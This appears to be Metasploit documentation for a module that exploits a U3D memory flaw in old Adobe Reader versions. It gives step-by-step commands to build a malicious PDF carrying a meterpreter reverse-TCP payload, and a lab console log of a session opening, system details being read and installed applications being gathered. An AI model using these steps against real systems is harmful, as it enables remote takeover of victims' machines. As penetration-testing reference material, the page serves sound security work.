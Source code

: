 ## Vulnerable Application

This module exploits a vulnerability in the U3D handling within versions 9.x through 9.4.6 and 10 through to 10.1.1 of Adobe Reader.
The vulnerability is due to the use of uninitialized memory. Arbitrary code execution is achieved by embedding specially
crafted U3D data into a PDF document. A heap spray via JavaScript is used in order to ensure that the memory
used by the invalid pointer issue is controlled.

Link to vulnerable software [OldVersion](http://www.oldversion.com/windows/download/acrobat-reader-9-4-0)

## Verification Steps

   1. Install application on the target machine
   2. Start msfconsole
   3. Do: ```use exploit/windows/fileformat/adobe_reader_u3d```
   4. Do: ```set payload [windows/meterpreter/reverse_tcp]```
   5. Do: ```set LHOST [IP]```
   6. Do: ```exploit```
   7. Do: ```use [exploit/multi/handler```
   8. Do: ```set LHOST [IP]```
   9. Do: ```exploit```
   10. Do: Open PDF on target machine with vulnerable software

## Options

  **FILENAME**

  The file name.

  **OBFUSCATE**

  Enable JavaScript obfuscation

## Scenarios

### Adobe Reader 9.4.0 on Windows XP (5.1 Build 2600, Service Pack 3)

  ```
  msf > use exploit/windows/fileformat/adobe_reader_u3d
  msf exploit(windows/fileformat/adobe_reader_u3d) > set FILENAME myFile.pdf
    FILENAME => myFile.pdf
  msf exploit(windows/fileformat/adobe_reader_u3d) > set LHOST 192.168.1.3
    LHOST => 192.168.1.3
  msf exploit(windows/fileformat/adobe_reader_u3d) > exploit

    [*] Creating 'myFile.pdf' file...
    [+] myFile.pdf stored at /root/.msf4/local/myFile.pdf
  msf exploit(windows/fileformat/adobe_reader_u3d) > use exploit/multi/handler
  msf exploit(multi/handler) > set LHOST 192.168.1.3
    LHOST => 192.168.1.3
  msf exploit(multi/handler) > exploit

    [*] Started reverse TCP handler on 192.168.1.3:4444
    [*] Sending stage (180291 bytes) to 192.168.1.5
    [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.5:1103) at 2019-12-05 18:01:07 -0700
  meterpreter > sysinfo
    Computer        : COMPUTER_1
    OS              : Windows XP (5.1 Build 2600, Service Pack 3).
    Architecture    : x86
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x86/windows
  meterpreter > getuid
    Server username: COMPUTER_1\USER
  meterpreter > run post/windows/gather/enum_applications

    [*] Enumerating applications installed on COMPUTER_1

    Installed Applications
    ======================

    Name                Version
    ----                -------
    Adobe Reader 9.4.0  9.4.0


    [+] Results stored in: /root/.msf4/loot/20191205180436_default_192.168.1.5_host.application_540854.txt
  ```
